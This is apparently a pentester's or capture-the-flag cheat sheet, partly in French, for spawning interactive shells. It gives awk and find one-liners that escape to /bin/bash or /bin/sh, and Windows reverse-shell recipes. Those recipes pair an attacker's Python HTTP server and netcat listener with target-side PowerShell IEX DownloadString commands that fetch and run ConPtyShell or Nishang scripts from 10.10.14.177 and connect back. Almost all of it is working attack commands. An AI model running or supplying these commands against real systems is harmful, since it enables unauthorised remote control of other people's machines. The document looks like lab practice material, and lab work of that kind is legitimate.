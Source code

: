### Spawn TTY Shell AWK

```shell
awk 'BEGIN {system("/bin/bash")}'
```

### Spawn TTY Shell Find

```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell
find . -exec /bin/sh \; -quit
```

## WINDOWS

### ConPTYShell (Completement interactif (fleches et autocompletion))

https://github.com/antonioCoco/ConPtyShell

attacker

```
python3 -m http.server 80
```

```
stty raw -echo; (stty size; cat) | nc -lvnp 443
```

target

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.177/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 10.10.14.177 443
```

### Nishang (Semi interactif (pas de flèches / autocompletion))

https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

attacker

```
python -m http.server 80
```

```
nc -nvlp 443
```

target

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.177/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.177 -Port 443
```
